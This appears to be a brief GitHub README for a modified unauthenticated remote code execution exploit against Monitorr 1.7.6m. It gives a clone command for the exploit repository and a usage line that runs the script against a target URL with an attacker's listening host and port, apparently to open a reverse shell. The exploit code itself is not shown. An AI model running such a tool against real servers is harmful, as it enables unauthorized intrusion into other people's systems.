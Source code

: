 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``
``python exploit.py https://domain.com LHOST PORT``

